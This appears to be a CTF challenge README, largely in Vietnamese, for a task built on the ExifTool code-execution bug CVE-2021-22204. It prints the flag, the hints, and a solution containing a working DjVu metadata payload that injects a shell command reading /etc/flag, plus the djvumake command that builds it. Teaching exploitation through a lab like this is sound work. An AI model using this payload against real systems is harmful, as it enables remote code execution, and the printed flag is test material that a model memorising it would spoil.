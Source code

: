 # ctf-challenges

![Zip](banner.PNG)

## Challenge:  Zip! achievement
## Description

Give me a zip file, I will tell you all about it, including the flag in /etc/flag.txt/

## Hint 

1. Do you know CVE-2021-22204
2. I think blog of vakzz bug hunter is very interesting

## Flag 

```sh
HCMUS-CTF{CVE_22204_1s_v3ry_1nt3r3st1ng}
```

## Ý tưởng

Challenge được lấy ý tưởng từ cve-2021-22204 ( cve này được sử dụng đểtạo payload dạng jpeg dùng cho việc exploit Gitlab). Đây là một trong những CVE khá nổi tiêng gần đây. Vì mã khai thác dưới dạng format hình ảnh (jpeg) đã có sẵn, nên đề ra sẽ customize lại, yêu cầu mã khai thác phải ở định dạng ZIP mới có thể lấy được flag.

## Giải thích

### Description: Give me a zip file, I will tell you all about it, including the flag in /etc/flag.txt/

Giúp các bạn sinh viên biêt được file flag nằm ở /etc/flag.txt nhằm phục vụ cho mục đích viết payload.

### Hint 1. Do you know CVE-2021-22204

Biêt được đây là CVE-2021-22004 và người cho chơi thể tìm kiếm các blog để tạo được mã khai thác dưới định dạng dễ nhât là *Djvu* 

### Hint 2: I think blog of vakzz bug hunter is very interesting
 
 Giúp các bạn sinh viên có thể tìm ra được blog của author (https://devcraft.io/2021/05/04/exiftool-arbitrary-code-execution-cve-2021-22204.html).
 Ở blog giúp các bạn sinh viên hiểu rõ về bug và các tạo mã khai thác dưới định dạng jpeg. Các bạn cần nắm vững kiên thức ở quy trình tạo payload jpeg, từ đó chỉ cần một số bước nhỏ có thể tạo payload ở dạng ZIP ( cuối blog tác giả cũng đã giải thích cho các tạo payload ở định dạng zip nhưng không có mì ăn liền, vì vậy có làm mới có ăn.)
 
## Cách giải

1. Tạo payload Djvu bắng Djvumake ( payload có sẵn trong blog nhưng các tạo thì các bạn sinh viên cũng phải tự research)

Tạo file payload.txt với nội dụng:
```
(metadata
    (Author "\
" . cat '/etc/flag'; #")
)
```

Sử dụng Djvumake để tạo payload dạng Djvu
```
djvumake exploit.djvu INFO=0,0 BGjp=/dev/null ANTa=payload.txt
```

2. Tạo payload dạng .zip bằng các đổi tên `exploit.djvu` thành `meta.json` và nén lại.


## Install

Clone project...

```sh
git clone https://github.com/hongson97/ctf-challenges.git
```

Replace IP api trong templates/upload.html thành IP của server deploy

Chạy docker-compose...

```sh
cd ctf-challenges
docker-compose up
```

